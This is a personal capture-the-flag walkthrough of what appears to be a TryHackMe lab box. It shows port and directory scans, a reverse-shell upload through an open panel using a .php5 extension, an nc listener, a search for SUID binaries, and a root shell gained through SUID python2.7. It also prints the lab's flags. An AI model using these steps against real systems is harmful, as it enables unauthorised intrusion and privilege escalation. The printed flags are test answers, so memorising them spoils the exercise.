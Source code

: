 root@ip-10-201-77-237:~# sudo nmap -A -T4 -p- 10.201.38.231
sudo: unable to resolve host ip-10-201-77-237: Name or service not known
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-21 06:32 BST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.201.38.231
Host is up (0.00027s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms 10.201.38.231

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.65 seconds


root@ip-10-201-77-237:~# gobuster dir -u http://10.201.38.231 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html, .php, .json, .txt, .md, .js, .yaml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.38.231
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.201.38.231/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.201.38.231/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.201.38.231/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.201.38.231/panel/]
/server-status        (Status: 403) [Size: 278]
Progress: 654825 / 654828 (100.00%)
===============================================================
Finished
===============================================================


panel is an open upload fully arbitrary. we can upload any rev shell here

enumerating framework with error page shows


![[Pasted image 20251021020001.png]]

![[Pasted image 20251021020023.png]]

to me, this closest resembles apache / httpd so that doesn't really tell me much about what rev shell to upload

root@ip-10-201-77-237:~# curl -I http://10.201.38.231
HTTP/1.1 200 OK
Date: Tue, 21 Oct 2025 06:03:19 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=h17q5a8ev66o3qek6ivf09eap7; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8


okay now we are cooking with gas

https://github.com/pentestmonkey/php-reverse-shell

back to the monkey of pentesting

![[Pasted image 20251021020638.png]]

oh boy looks like it may be asking us to play with the extension or somthing like .php4 .php5 or just adding some random innocuous extension 

![[Pasted image 20251021024035.png]]

okay, figures. Classic CTF style .php5 works, lets's see if we can see it in /uploads

obv I set <nc -lnvp 1234> 



$ whoami
www-data
$ 


yeah figures

$ find / -name user.txt 2>/dev/null
/var/www/user.txt
$ cd /var/www/
$ ls
html
user.txt
$ cat user.txt
THM{y0u_g0t_a_sh3ll}
$      

$ sudo -L 
sudo: invalid option -- 'L'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...

not sudo passwordless

$ find / -type f -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python2.7
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/snap/core20/2599/usr/bin/chfn
/snap/core20/2599/usr/bin/chsh
/snap/core20/2599/usr/bin/gpasswd
/snap/core20/2599/usr/bin/mount
/snap/core20/2599/usr/bin/newgrp
/snap/core20/2599/usr/bin/passwd
/snap/core20/2599/usr/bin/su
/snap/core20/2599/usr/bin/sudo
/snap/core20/2599/usr/bin/umount
/snap/core20/2599/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2599/usr/lib/openssh/ssh-keysign
/bin/mount
/bin/su
/bin/fusermount
/bin/umount


ls -la /usr/bin/python2.7
-rwsr-xr-x 1 root root 3657904 Dec  9  2024 /usr/bin/python2.7


root owned with SUID is good

went to GTFO bins and found this

python -c 'import os; os.system("/bin/sh")'

with modification to this

python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

it worked fine

root
cd /root
ls
root.txt
snap
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}

